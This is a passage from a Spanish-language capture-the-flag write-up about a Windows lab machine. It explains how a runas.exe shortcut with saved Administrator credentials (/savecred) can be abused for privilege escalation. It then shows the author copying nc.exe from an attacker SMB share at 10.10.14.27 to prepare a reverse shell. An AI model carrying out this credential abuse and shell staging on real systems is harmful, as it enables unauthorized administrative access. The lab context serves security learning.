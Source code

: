 ```bash
TargetPath       : C:\Windows\System32\runas.exe
WindowStyle      : 1
WorkingDirectory : C:\ZKTeco\ZKAccess3.5



PS C:\Users\Public\Desktop> 
```

Aqui ya vemos cosas muy interesantes. Primero en **TargetPath** vemos `runas.exe`, que si no tenemos idea de lo que es, pues runas.exe es una herramienta de línea de comandos incluida en Windows a partir de Windows XP y Windows server 2003, la herramienta permite ejecutar una aplicación con permisos diferentes al usuario que actualmente tiene la sesión iniciada [jctsoluciones](https://www.jctsoluciones.com.co/uso-del-comando-runas-en-windows/); despúes en **Arguments** tenemos el usuario **Administrator** y el parámetro `/savecred` que hace referencia a que las credenciales de dicho usuario se encuentran guardadas y ya no es necesario conocer la contraseña. Por lo tanto, podríamos ejecutar `runas.exe`, pasandole los argumentos y en vez de lanzar `Access.exe`, nos podemos entablar una reverse shell.

Asi que vamos a un directorio donde tengamos permisos de escritura y nos compartimos el archivo `nc.exe` mediante un recurso compartido a nivel de red.

```bash
PS C:\Users\security> cd Desktop
PS C:\Users\security\Desktop> dir


    Directory: C:\Users\security\Desktop


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
-a---         8/21/2018  11:37 PM         32 user.txt                                                                           


PS C:\Users\security\Desktop> mkdir test


    Directory: C:\Users\security\Desktop


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
d----          1/3/2022  12:19 AM            test                                                                               


PS C:\Users\security\Desktop> cd test
PS C:\Users\security\Desktop\test> copy \\10.10.14.27\smbFolder\nc.exe nc.exe
PS C:\Users\security\Desktop\test> dir


    Directory: C:\Users\security\Desktop\test


Mode                LastWriteTime     Length Name                                                                               
----                -------------     ------ ----                                                                               
```
